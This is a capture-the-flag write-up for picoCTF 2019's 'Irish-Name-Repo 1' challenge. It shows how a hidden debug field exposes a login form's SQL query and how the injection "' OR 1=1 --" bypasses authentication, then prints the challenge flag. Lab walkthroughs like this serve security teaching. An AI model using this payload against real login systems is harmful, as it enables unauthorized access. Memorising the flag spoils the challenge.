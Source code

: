 # Irish-Name-Repo 1

> There is a website running at ``https://2019shell1.picoctf.com/problem/12273/`` ([link](https://2019shell1.picoctf.com/problem/12273/)) or http://2019shell1.picoctf.com:12273. Do you think you can log us in? Try to see if you can login!

> Hints: There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database? Try to think about how does the website verify your login?

As suggested by the hints, this is a SQL injection, the language most commonly assocaited with database searches.

Navigating to the [login page](https://2019shell1.picoctf.com/problem/12273/login.html) and inspecting, we find that there is a hidden input to the POST request named ``debug``.
```html
<form action="login.php" method="POST">
    <fieldset>
        ...
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```
Entering something random in for the username and password and then setting the ``debug`` to ``1`` greets us with the following invalid login page.
<pre>
username: something random
password: something random
SQL query: SELECT * FROM users WHERE name='something random' AND password='something random'
<h1>Login failed.</h1>
</pre>
So indeed, this is a SQL injection. Currently, the SQL querry looks like the following.
```sql
SELECT * FROM users WHERE name='something random' AND password='something random'
```
We note that if we inject ``' OR 1=1 --``, the poor sanitation that SQL works with on strings will cause the querry to close the string on ``'`` and then evaluate the ``OR 1=1``, which is always true. We then kindly comment out the rest of the querry with ``--``. Formatted, the injection looks like this.
```sql
SELECT * FROM users WHERE name='' OR 1=1 --' AND password='something random'
```

Inputting the injection greets us with the flag.
<pre>
username: ' OR 1=1 --
password: something random
SQL query: SELECT * FROM users WHERE name='' OR 1=1 --' AND password='something random'
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_34865514}</p>
</pre>
> ``picoCTF{s0m3_SQL_34865514}``
